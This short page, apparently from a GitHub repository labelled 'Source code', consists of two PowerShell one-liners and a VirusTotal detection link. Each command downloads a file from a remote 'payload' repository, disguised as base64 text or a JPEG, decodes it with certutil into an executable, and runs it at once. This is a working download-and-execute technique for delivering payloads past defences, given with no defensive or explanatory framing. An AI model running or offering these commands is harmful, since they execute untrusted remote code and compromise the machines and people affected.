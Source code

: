 <code>powershell Invoke-WebRequest https://raw.githubusercontent.com/halitAKAYDIN/payload/main/file.bs4 -O file.bs4 & certutil -decode file.bs4 file.exe & cmd.exe /c file.exe</code>

<code>powershell Invoke-WebRequest https://raw.githubusercontent.com/halitAKAYDIN/payload/main/file.jpg -O file.jpg & certutil -decode file.jpg file.exe & cmd.exe /c file.exe</code>

https://www.virustotal.com/gui/file/b75f1fb2e31c1e1a1a36a093bd20fcb4139b89e7bd1f2bb071c2ca851a761d64/detection
